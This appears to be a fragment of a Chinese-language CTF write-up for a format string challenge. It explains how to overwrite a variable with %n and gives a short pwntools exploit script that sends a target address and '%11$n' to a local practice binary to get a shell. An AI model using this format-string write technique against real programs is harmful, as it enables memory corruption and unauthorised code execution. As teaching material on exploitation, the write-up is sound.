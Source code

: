 + 这道题要将 `x` 改为4，那么我们可以将**格式化字符串的格式** 的前4个字节设置为将要修改的数值的地址，然后通过 `%n` 将这个地址（存放的是x的值）里面的数值改为 `4` 这样就可以达到我们的目的。而具体 **格式化字符串这个格式字符串** 存放在栈的哪个位置，换算一下是 `printf` 的第几个参数，要通过 `gdb` 调试得到。

  ![image-20201022210004901](https://raw.githubusercontent.com/smallzhong/picgo-pic-bed/master/image-20201022210004901.png)

  于是我们通过 `%n` 将 `x` 存放的地址的值改为 `4` ，就可以 `getshell` 。

+ `exp` 如下

  ```python3
  from pwn import *
  
  io = process("./fmtstr1")
  
  elf = ELF("./fmtstr1")
  
  payload = flat([p32(0x0804A02C), b"%11$n"])
  
  io.send(payload)
  
  io.interactive()
  ```

  